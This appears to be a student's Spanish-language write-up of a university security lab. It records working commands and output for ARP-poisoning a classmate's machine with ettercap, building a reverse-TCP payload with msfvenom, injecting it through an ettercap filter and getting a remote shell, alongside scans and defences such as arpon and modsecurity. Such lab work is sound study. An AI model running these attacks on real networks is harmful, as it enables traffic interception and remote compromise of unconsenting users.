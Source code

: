 # PRACTICA 2 LSI

<details>
  <summary>a) Instale el ettercap y pruebe sus opciones básicas en línea de comando.</summary>

  ```console
  root@debian:/home/lsi# apt install ettercap-text-only
  ```
</details>
<details>
  <summary>b) Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Sobre esta paquetería (puede utilizar el wireshark para los siguientes subapartados)</summary>

  Previo a los apartados debemos hacer un MITM a la máquina de nuestro compañero :
  ```console
root@debian:/home/lsi# ettercap -T -q -i ens33 -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help
  ```
Luego en otra terminal hacemos un tcpdump para guardar el trafico
```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w compa.pcap
tcpdump: listening on ens33, link-type EN10MB (Ethernet), snapshot length 65535 bytes
916 packets captured
919 packets received by filter
0 packets dropped by kernel
```
Este archivo me lo paso a mi máquina real y lo leo desde Wireshark.

  -  Identifique los campos de cabecera de un paquete TCP
```console
     Frame 6: 66 bytes on wire (528 bits), 66 bytes captured (528 bits)
Ethernet II, Src: Alcatel-_10:84:b9 (dc:08:56:10:84:b9), Dst: VMware_97:15:21 (00:50:56:97:15:21)
Internet Protocol Version 4, Src: 10.20.38.93, Dst: 10.11.48.71
Transmission Control Protocol, Src Port: 56904, Dst Port: 22, Seq: 1, Ack: 45, Len: 0
    Source Port: 56904
    Destination Port: 22
    [Stream index: 0]
    [Conversation completeness: Incomplete (12)]
    [TCP Segment Len: 0]
    Sequence Number: 1    (relative sequence number)
    Sequence Number (raw): 2990874455
    [Next Sequence Number: 1    (relative sequence number)]
    Acknowledgment Number: 45    (relative ack number)
    Acknowledgment number (raw): 1338463224
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x010 (ACK)
    Window: 501
    [Calculated window size: 501]
    [Window size scaling factor: -1 (unknown)]
    Checksum: 0x6622 [unverified]
    [Checksum Status: Unverified]
    Urgent Pointer: 0
    Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
    [Timestamps]
    [SEQ/ACK analysis]
```
     
  -  Filtre la captura para obtener el tráfico HTTP
  -  Obtenga los distintos “objetos” del tráfico HTTP (imágenes, pdfs, etc.)
  -  Visualice la paquetería TCP de una determinada sesión.

      Analyze > Follow > TCP Stream
  
  -  Sobre el total de la paquetería obtenga estadísticas del tráfico por protocolo como fuente de información para un análisis básico del tráfico.

     Statistics > Protocol Hierarchy
  
  -  Obtenga información del tráfico de las distintas “conversaciones” mantenidas.

     Statistics > Conversations
  
  -  Obtenga direcciones finales del tráfico de los distintos protocolos como mecanismo para determinar qué circula por nuestras redes.

     Statistics > Endpoints

</details>
<details>
	<summary>c) Obtenga la relación de las direcciones MAC de los equipos de su segmento.</summary>

```console
 root@debian:/home/lsi# nmap -sP 10.11.48.0/23 >> nmap.txt
```
En el archivo .txt podemos ver las direcciones MAC.

</details>

<details>
	<summary>d) Obtenga la relación de las direcciones IPv6 de su segmento.</summary>

 ```console
root@debian:/home/lsi#  ping6 -c2 -I ens33 ff02::1 >> ipv6.txt
root@debian:/home/lsi# ip -6 neigh >> neighbours.txt
 ```
</details>
<details>
	<summary>f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.</summary>

</details>
<details>
	<summary>g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.</summary>

1. Instalar metasploit
```console
  root@debian:/home/lsi# curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
2. Creamos el playload:
```console
root@debian:/home/lsi# msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.11.48.71 LPORT=4444 -f elf > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```
3. Lo metemos en la victima :
```console
root@debian:/home/lsi# nano ett.filter
root@debian:/home/lsi# etterfilter ett.filter -o ig.ef

etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team


 14 protocol tables loaded:
	DECODED DATA udp tcp esp gre icmp ipv6 ip arp wifi fddi tr eth 

 13 constants loaded:
	VRRP OSPF GRE UDP TCP ESP ICMP6 ICMP PPTP PPPOE IP6 IP ARP 

 Parsing source file 'ett.filter'  done.

 Unfolding the meta-tree  done.

 Converting labels to real offsets  done.

 Writing output to 'ig.ef'  done.

 -> Script encoded into 6 instructions.


root@debian:/home/lsi# echo 1 > /proc/sys/net/ipv4/ip_forward

root@debian:/home/lsi# ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Content filters loaded from ig.ef...
Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

```
4. Reverse shell en el atacante :
```console
root@debian:/home/lsi# msfconsole
Metasploit tip: View all productivity tips with the tips command
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.3.42-dev-                         ]
+ -- --=[ 2374 exploits - 1230 auxiliary - 414 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.48.71
LHOST => 10.11.48.71
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.48.71:4444 
[*] Sending stage (36 bytes) to 10.11.48.183
ls
[*] Command shell session 1 opened (10.11.48.71:4444 -> 10.11.48.183:44364) at 2023-11-07 16:05:31 +0100

Descargas
Documentos
Escritorio
Imágenes
Música
Plantillas
Público
Vídeos
coreruleset-3.3.0
dict.txt
etter.filter
logsInicio
logssh
ossec-hids-3.7.0
ossec-hids-3.7.0.zip
payload.bin
echo h4ck3d > h4ck3d.txt
cat h4ck3d.txt
h4ck3d
exit
[*] 10.11.48.183 - Command shell session 1 closed.
msf6 exploit(multi/handler) > 

```
	
</details>
<details>
	<summary>h) Haga un MITM en IPv6 y visualice la paquetería.</summary>
</details>




<details>
	<summary>i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).</summary>

1. Vaciamos arp : 
```console
root@debian:/home/lsi# ip -s -s neigh flush all
10.11.49.104 dev ens33 lladdr 00:50:56:97:10:6b  used 486/546/486probes 0 STALE 
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 3/0/3probes 1 REACHABLE 
10.11.48.183 dev ens33 lladdr 00:50:56:97:eb:ac  ref 1 used 17/17/17probes 1 REACHABLE 

*** Round 1, deleting 3 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 2, deleting 1 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 3, deleting 1 entries ***
10.11.48.1 dev ens33  ref 1 used 0/60/0probes 4 INCOMPLETE 

*** Round 4, deleting 1 entries ***
*** Flush is complete after 4 rounds ***

```
2. Usamos arpon para detectar :
```console
root@debian:/home/lsi# cat /etc/arpon.conf
#
# ArpON configuration file.
#
# See the arpon(8) man page for details.
#

#
# Static entries matching the eth0 network interface:
#
# First static entry:
#192.168.1.1     58:ac:78:10:b9:77
# Second static entry:
#192.168.1.3     d4:be:d9:fe:8b:45
# Third static entry:
#192.168.1.4     90:94:e4:bb:1c:10

#
# Static entries matching the eth1 network interface:
#
# First static entry:
#10.0.1.1        58:ac:78:88:1a:bb
# Second static entry:
#10.0.10.1       90:94:e4:7e:f4:59
root@debian:/home/lsi# arpon -d -i ens33 -H
root@debian:/home/lsi# Nov 07 16:18:49 [INFO] Background process is running (2491).
^C
root@debian:/home/lsi# ps -A | grep arpon
   2491 ?        00:00:00 arpon
root@debian:/home/lsi# kill 2491

```
</details>
<details>
	<summary>j) Pruebe distintas técnicas de host discovey, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?.</summary>

1. Escaneamos en IPv4
```console
root@debian:/home/lsi# nmap -A 10.11.48.1/24 > nmap_full.txt
```
2. Escaneapos IPv6
```console
root@debian:/home/lsi# nmap -A -6 fe80::250:56ff:fe97:d0a2 > nmap_6.txt
```
</details>
<details>
	<summary>k) Obtenga información “en tiempo real” sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.</summary>

```console
root@debian:/home/lsi# iftop -i ens33
```
```console
root@debian:/home/lsi# vnstat -l -i ens33
```
</details>

<details>
	<summary>l) Monitorizamos nuestra infraestructura.:</summary>

- Instale prometheus y node_exporter y configúrelos para recopilar todo tipo de métricas de su máquina linux.

  
- Posteriormente instale grafana y agregue como fuente de datos las métricas de su equipo de prometheus.

  
- Importe vía grafana el dashboard 1860.

  
- En los ataques de los apartados m y n busque posibles alteraciones en las métricas visualizadas.

  
</details>

<details>
	<summary>m) PARA PLANTEAR DE FORMA TEÓRICA.: ¿Cómo podría hacer un DoS de tipo direc attack contra un equipo de la red de prácticas? ¿Y mediante un DoS de tipo reflective flooding attack?.</summary>

 
</details>

<details>
	<summary>n) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?</summary>

```console
root@debian:/home/lsi# apt install apache2
```
- ¿Cómo podría proteger dicho servicio ante este tipo de ataque?
  Con un firewall de app web como modsecurity.
- Y si se produjese desde fuera de su segmento de red?
- ¿Cómo podría tratar de saltarse dicha protección?
</details>

<details>
	<summary>o) Instale y configure modsecurity. Vuelva a proceder con el ataque del apartado anterior. ¿Qué acontece ahora?</summary>

```console
root@debian:/home/lsi# apt install libapache2-mod-security2
```

```console
root@debian:/home/lsi# a2enmod headers
Enabling module headers.
To activate the new configuration, you need to run:
  systemctl restart apache2
```
```console
root@debian:/home/lsi# cp /etc/modsecurity/modsecurity.conf-recommended modsecurity.conf
root@debian:/home/lsi# nano modsecurity.conf
 ###Change SecRuleEngine from DetectionOnly to On
root@debian:/home/lsi# cp modsecurity.conf /etc/modsecurity/modsecurity.conf
```

```console
root@debian:/home/lsi# apt install libapache2-mod-evasive
root@debian:/home/lsi# a2enmod evasive
root@debian:/home/lsi# cat /etc/apache2/mods-enabled/evasive.conf 
<IfModule mod_evasive20.c>
    #DOSHashTableSize    3097
    #DOSPageCount        2
    #DOSSiteCount        50
    #DOSPageInterval     1
    #DOSSiteInterval     1
    #DOSBlockingPeriod   10

    #DOSEmailNotify      you@yourdomain.com
    #DOSSystemCommand    "su - someuser -c '/sbin/... %s ...'"
    #DOSLogDir           "/var/log/mod_evasive"
</IfModule>

```
 
</details>
<details>
	<summary> p) Buscamos información.: </summary>

- Obtenga de forma pasiva el direccionamiento público IPv4 e IPv6 asignado a la Universidade da Coruña

- Obtenga información sobre el direccionamiento de los servidores DNS y MX de la Universidade da Coruña.

- ¿Puede hacer una transferencia de zona sobre los servidores DNS de la UDC?.

- En caso negativo, obtenga todos los nombres.dominio posibles de la UDC.

- ¿Qué gestor de contenidos se utiliza en www.usc.es?

</details>
<details>
	<summary> q) Trate de sacar un perfil de los principales sistemas que conviven en su red de prácticas, puertos accesibles, fingerprinting, etc.</summary>
 

</details>
<details>
	<summary> r) Realice algún ataque de “password guessing” contra su servidor ssh y compruebe que el analizador de logs reporta las correspondientes alarmas.</summary>


</details>

<details>
	<summary>s) Reportar alarmas está muy bien, pero no estaría mejor un sistema activo, en lugar de uno pasivo. Configure algún sistema activo, por ejemplo OSSEC, y pruebe su funcionamiento ante un “password guessing”.</summary>

 
</details>
<details>
	<summary>t) Supongamos que una máquina ha sido comprometida y disponemos de un fichero con sus mensajes de log. Procese dicho fichero con OSSEC para tratar de localizar evidencias de lo acontecido (“post mortem”). Muestre las alertas detectadas con su grado de criticidad, así como un resumen de las mismas.</summary>
	
</details>
